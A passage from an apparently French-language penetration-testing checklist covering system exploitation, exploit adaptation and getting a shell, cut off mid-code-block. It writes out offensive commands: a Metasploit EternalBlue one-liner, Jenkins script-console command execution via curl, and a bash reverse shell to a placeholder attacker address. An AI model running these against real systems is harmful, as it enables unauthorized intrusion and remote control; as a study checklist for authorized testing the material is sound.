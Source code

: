 - [ ] **Exploitation des vulnérabilités système**
  - [ ] Exploiter des CVE spécifiques
    ```bash
    # Exemple pour EternalBlue
    msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS <ip>; set LHOST <your_ip>; exploit"
    ```
    > *Question*: La version du système est-elle vulnérable à des exploits connus?
  
  - [ ] Exploiter des mauvaises configurations
    ```bash
    # Exemple pour sudo misconfiguration
    sudo -l # Vérifier les permissions sudo
    ```
    > *Question*: Y a-t-il des binaires avec SUID ou des configurations sudo dangereuses?
  
  - [ ] Exploiter des services mal configurés
    ```bash
    # Exemple pour Jenkins
    curl http://<ip>:8080/script -d "script=println 'whoami'.execute().text"
    ```
    > *Question*: Y a-t-il des interfaces d'administration non sécurisées?

- [ ] **Développement d'exploits personnalisés**
  - [ ] Modifier des exploits existants
    ```bash
    searchsploit -m <exploit_id>
    # Modifier l'exploit selon les besoins
    ```
    > *Question*: Comment adapter un exploit existant à votre cible spécifique?
  
  - [ ] Créer des scripts d'exploitation
    ```bash
    # Exemple de script Python pour une vulnérabilité personnalisée
    ```
    > *Question*: Quelles sont les spécificités de la vulnérabilité qui nécessitent un exploit personnalisé?
  
  - [ ] Tester l'exploit dans un environnement contrôlé
    > *Question*: Votre exploit fonctionne-t-il de manière fiable?

- [ ] **Obtention d'un shell**
  - [ ] Utiliser des payloads de reverse shell
    ```bash
    # Bash
    bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'
    